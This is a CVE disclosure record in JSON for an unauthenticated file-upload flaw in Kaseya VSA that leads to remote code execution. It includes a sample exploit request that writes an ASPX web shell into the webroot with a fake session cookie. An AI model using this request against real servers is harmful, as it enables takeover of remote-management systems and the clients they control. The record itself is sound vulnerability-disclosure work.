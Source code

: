```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30118",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated Remote Code Execution in Kaseya VSA < v9.5.5"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA (On-premise and SaaS)",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "An attacker can upload files with the privilege of the Web Server process for Kaseya VSA Unified Remote Monitoring & Management (RMM) 9.5.4.2149 and subsequently use these files to execute asp commands\n\nThe api /SystemTab/uploader.aspx is vulnerable to an unauthenticated arbitrary file upload leading to RCE.  An attacker can upload files with the privilege of the Web Server process and subsequently use these files to execute asp commands.\n\nDetailed description\n---\nGiven the following request:\n```\nPOST /SystemTab/uploader.aspx?Filename=shellz.aspx&PathData=C%3A%5CKaseya%5CWebPages%5C&__RequestValidationToken=ac1906a5-d511-47e3-8500-47cc4b0ec219&qqfile=shellz.aspx HTTP/1.1\nHost: 192.168.1.194\nCookie:  sessionId=92812726; %5F%5FRequestValidationToken=ac1906a5%2Dd511%2D47e3%2D8500%2D47cc4b0ec219\nContent-Length: 12\n\n<%@ Page Language=\"C#\" Debug=\"true\" validateRequest=\"false\" %>\n<%@ Import namespace=\"System.Web.UI.WebControls\" %>\n<%@ Import namespace=\"System.Diagnostics\" %>\n<%@ Import namespace=\"System.IO\" %>\n<%@ Import namespace=\"System\" %>\n<%@ Import namespace=\"System.Data\" %>\n<%@ Import namespace=\"System.Data.SqlClient\" %>\n<%@ Import namespace=\"System.Security.AccessControl\" %> \n<%@ Import namespace=\"System.Security.Principal\" %>\n<%@ Import namespace=\"System.Collections.Generic\" %> \n<%@ Import namespace=\"System.Collections\" %> \n \n<script runat=\"server\">\n \nprivate const string password = \"pass\";  // The password ( pass )\nprivate const string style = \"dark\";  // The style ( light / dark )\n \nprotected void Page_Load(object sender, EventArgs e)\n{\n\t//this.Remote(password);\n\tthis.Login(password);\n\tthis.Style(); \n\tthis.ServerInfo(); \n\t\n<snip>\n```\nThe attacker can control the name of the file written via the qqfile parameter and the location of the file written via the PathData parameter.\n\nEven though the call requires that a sessionId cookie is passed we have determined that the sessionId is not actually validated and any numeric value is accepted as valid.\n\nSecurity issues discovered\n---\n* a sessionId cookie is required by /SystemTab/uploader.aspx, but is not actually validated, allowing an attacker to bypass authentication\n* /SystemTab/uploader.aspx allows an attacker to create a file with arbitrary content in any place the webserver has write access\n* The web server process has write access to the webroot where the attacker can execute it by requesting the URL of the newly created file.\n\nImpact\n---\nThis arbitrary file upload allows an attacker to place files of his own choosing on any location on the hard drive of the server the webserver process has access to, including (but not limited to) the webroot. If the attacker uploads files with code to the webroot (e.g. aspx code) he can then execute this code in the context of the webserver to breach either the integrity, confidentiality, or availability of the system or to steal credentials of other users. In other words, this can lead to a full system compromise.\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 9.8,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-434 Unrestricted Upload of File with Dangerous Type"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://csirt.divd.nl/CVE-2021-30118",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/CVE-2021-30118"
            },
            {
                "name": "https://csirt.divd.nl/DIVD-2021-00011",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/DIVD-2021-00011"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021"
            }
        ]
    },
    "solution": [
        {
            "lang": "eng",
            "value": "SaaS version has been fixed by the vendor.\nUpgrade on-premise to version 9.5.6 or above"
        }
    ],
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "UNKNOWN"
    }
}
---
```



